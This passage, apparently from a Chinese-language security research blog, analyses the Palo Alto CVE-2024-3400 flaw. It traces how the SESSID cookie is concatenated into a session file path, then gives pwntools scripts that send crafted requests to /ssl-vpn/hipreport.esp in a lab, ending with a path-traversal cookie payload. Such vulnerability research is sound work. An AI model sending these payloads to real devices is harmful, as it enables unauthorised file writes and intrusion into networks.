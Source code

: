  ![](/attachments/2024-04-18-palo-alto-cve-2024-3400/0282cbfa-10e2-4e9f-bed2-b06dda2ea87b.png)

分析该函数的代码，其中`name`就是传入的`SESSID`，调用`net_http__ptr_Request_Cookie`从`Cookie`中获取`SESSID`的值，然后赋值给`session->ID.str`。

 ![](/attachments/2024-04-18-palo-alto-cve-2024-3400/e5acaa6b-438d-4769-8f7f-665e1044c923.png)

接下来会将`session->ID.str`进行简单的路径拼接，得到`filename`完整路径，然后传递给`main_loadSessFile`。

 ![](/attachments/2024-04-18-palo-alto-cve-2024-3400/2e604ef8-5192-4922-aa3c-3fe9bea76fa3.png)

我们直接在`main_loadSessFile`下断点，然后调试，使用如下的测试脚本进行触发：

```python
from pwn import *
import os
import requests

ip = '192.168.177.149'
port = 20077

payload = 'POST /ssl-vpn/hipreport.esp HTTP/1.1\r\n'
payload += 'Host: aa.bb.cc\r\n'
payload += 'Cookie: SESSID=/aaaaaaaaaaaaa;\r\n'
payload += '\r\n'

sh = remote(ip,port)
sh.send(payload)
sh.interactive()
```

 ![](/attachments/2024-04-18-palo-alto-cve-2024-3400/45042131-3f5c-4f83-b105-e5de64e26ba3.png)

可以看到SESSID的内容成功拼接到`filename`，由于是简单的拼接，能否尝试一下`/../../`这种路径穿越的path?修改测试脚本。

```python
#coding:utf8
from pwn import *
import os
import requests

ip = '192.168.177.149'
port = 20077

payload = 'POST /ssl-vpn/hipreport.esp HTTP/1.1\r\n'
payload += 'Host: aa.bb.cc\r\n'
payload += 'Cookie: SESSID=/../../../tmp/aaaaaaaaaaaaa;\r\n'
payload += '\r\n'

sh = remote(ip,port)
sh.send(payload)
sh.interactive()
```
